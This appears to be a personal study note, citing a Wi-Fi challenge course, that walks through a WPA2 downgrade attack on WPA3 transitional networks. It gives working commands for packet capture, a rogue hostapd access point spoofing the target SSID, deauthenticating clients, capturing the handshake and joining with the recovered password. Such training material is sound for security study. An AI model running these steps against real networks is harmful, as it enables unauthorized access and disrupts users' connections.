


# WPA2 Downgrade Attacks
In a [transitional network](transitional-networks-mixed-mode.md), attackers can perform downgrade attacks where they trick a device into connecting using the [WPA2](../../networking/wifi/WPA-WPA2.md) protocol *instead of [WPA3](../../networking/wifi/WPA3.md)*.
## Steps
#### 1. Capture traffic
Use a tool like `airodump-ng` to monitor the network and capture packets/frames:
```bash
sudo airodump-ng wlan0
```
#### 2. Check for MFP
Next, check if the client or AP is using [MFP](../../networking/wifi/MFP.md). You can use [wifi_db](../offensive-wifi-recon/wifi_db.md) or [wireshark](../../cybersecurity/TTPs/recon/tools/scanning/wireshark.md). If MFP is enabled than a [deauthentication attack](../PSK-attacks/handshake-attack.md#2.1%20Force%20traffic) won't work:

#### 3. Check for Transitional Support
In Wireshark, find a Beacon Frame. Find the section `IEEE 802.11 Wireless Management > Tagged parameters > RSN IE > Auth Key Management (AKM) list`. Check to see if its only `SAE`, `PSK`, or both (Transitional)

#### 4. Set up a fake access point with WPA2
Create a malicious access point which uses WPA2. Configure it to use a random password. We'll use `hostapd` to set it up
##### Configuration file:
Create the following `/etc/hostapd/hostapd.conf` file:
```bash
interface=wlan2
driver=nl80211
ssid=FakeAP
channel=6
hw_mode=g
ieee80211n=1
ieee80211ac=1
wmm_enabled=1
# WPA2 settings
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
auth_algs=1
wpa_passphrase=maliciouspassword
```
Make sure the `ssid` *matches the SSID of the target AP*.
##### Launch the AP:
```bash
sudo hostapd hostapd.conf
```
#### 5. Deauthentication attack on WPA3 connection
If MFP is disabled and we can do a deauth attack, then we want to deauth the client from their WPA3 connection:
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT> wlan0
```
#### 6. Capture the WPA2 handshake
Use `airodump-ng` to capture the WPA2 handshake (from when the client tries to connect to our rogue AP):
```bash
sudo airodump-ng -c 6 --bssid <FakeAP_MAC> -w capture wlan0
```
You could also do a [noAP](../PSK-attacks/noAP.md) attack using `hostapd-mana` instead.
#### 7. Connect to the network
Once you have the password, you can connect using `wpa_supplicant` with a conf file (`downgrade.conf`) that looks like this:
```bash
network={
  ssid="wifi-IT"
  psk="<PASSWORD>"
  key_mgmt=SAE
  scan_ssid=1
  ieee80211w=1
}
```
Then run the command:
```bash
sudo wpa_supplicant -i wlan2 -c ./downgrade.conf
```
Then request your new IP address:
```bash
dhclient wlan2 -v
```

> [!Resources]
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.